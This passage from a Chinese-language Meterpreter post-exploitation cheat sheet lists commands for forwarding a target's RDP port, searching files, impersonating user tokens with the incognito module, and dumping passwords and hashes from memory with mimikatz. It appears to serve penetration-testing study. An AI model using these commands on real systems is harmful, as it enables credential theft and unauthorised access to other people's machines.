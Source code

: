 
> 然后我们只要访问本地的3389端口就可以连接到目标主机的3389端口了

### 删除端口转发
```
portfwd delete -l <端口号> -p <端口号> -r <目标IP>   
```
  如果你想显示所有端口转发记录，你可以使用`portfwd list`命令，如果你想删除所有的记录，可以使用`portfwd flush`命令
<br>
<br>
### 文件搜索
```
search -f *.txt(文件名称)
```
### 获取用户ID
```
getuid
```
### 获取系统信息
```
sysinfo
```
### 模拟任意用户(token操作)

```
use incognito
list_tokens -u
impersonate_token “Machine\\user”
```
### 抓取密码和获取密码
```
load mimikatz              \\使用load mimikatz加载mimikatz模块
```
```
ssp       \\抓取密码

wdigest    \\用户储存在内存里的明文密码。

wdigest(获取WDigest凭据)

msv （获取msv凭据（hash））

kerberos （获取kerberos）
```